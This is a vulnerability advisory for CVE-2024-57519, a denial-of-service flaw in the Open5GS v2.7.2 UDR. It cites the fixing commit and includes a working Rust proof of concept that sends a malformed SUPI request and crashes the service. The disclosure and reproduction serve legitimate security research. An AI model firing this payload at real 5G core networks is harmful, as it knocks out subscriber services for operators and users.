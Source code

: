 ## CVE-2024-57519: Denial of Service in Open5GS v2.7.2 UDR via Malformed SUPI Parsing in Nudr_DataRepository API

A denial of service (DoS) vulnerability exists in the UDR (Unified Data Repository), a network function within the 5G Core Network, specifically in its Nudr_DataRepository API implementation in Open5GS v2.7.2.
This vulnerability arises due to improper handling of malformed SUPIs (Subscriber Permanent Identifiers) by the `ogs_dbi_auth_info` function in the `lib/dbi/subscription.c` file.
When a malformed SUPI that lacks a hyphen (`-`) is sent to the `/subscription-data` endpoint of the Nudr_DataRepository API, the `ogs_id_get_value` function fails to parse the SUPI.
This leads to an assertion failure in the UDR, causing it to crash.

The issue was fixed on commit [08b9e7c55f72649ef25b5407e7e4d938f0f16531](https://github.com/open5gs/open5gs/commit/08b9e7c55f72649ef25b5407e7e4d938f0f16531).

### Steps to reproduce:

1) Follow the [Open5GS Quickstart Guide](https://open5gs.org/open5gs/docs/guide/01-quickstart/) to set up the Open5GS core environment.

2) Adjust the IP address (`127.0.0.1`) and port (`7777`) if necessary, and run the following rust program to send the malicious payload.

```rust
use std::net::TcpStream;
use solicit::http::HttpScheme;
use solicit::http::connection::HttpConnection;
use solicit::http::client::write_preface;
use solicit::client::SimpleClient;

fn main() {
    let mut stream = TcpStream::connect(("127.0.0.20", 7777)).unwrap();
    let _ = write_preface(&mut stream);

    let conn = HttpConnection::<TcpStream, TcpStream>::with_stream(
        stream,
        HttpScheme::Http,
    );

    let headers = vec![
        (b"accept".to_vec(), b"application/json,application/problem+json".to_vec())
    ];

    let mut client = SimpleClient::with_connection(conn, "127.0.0.20:7777".into()).unwrap();
    let _ = client.get(
        b"/nudr-dr/v1/subscription-data/imsiMALFORMED/authentication-data/authentication-subscription",
        &headers,
    );

    println!("[+] Payload sent successfully");
}
```

3) Check `/var/log/open5gs/udr.log` to see the crash logs.

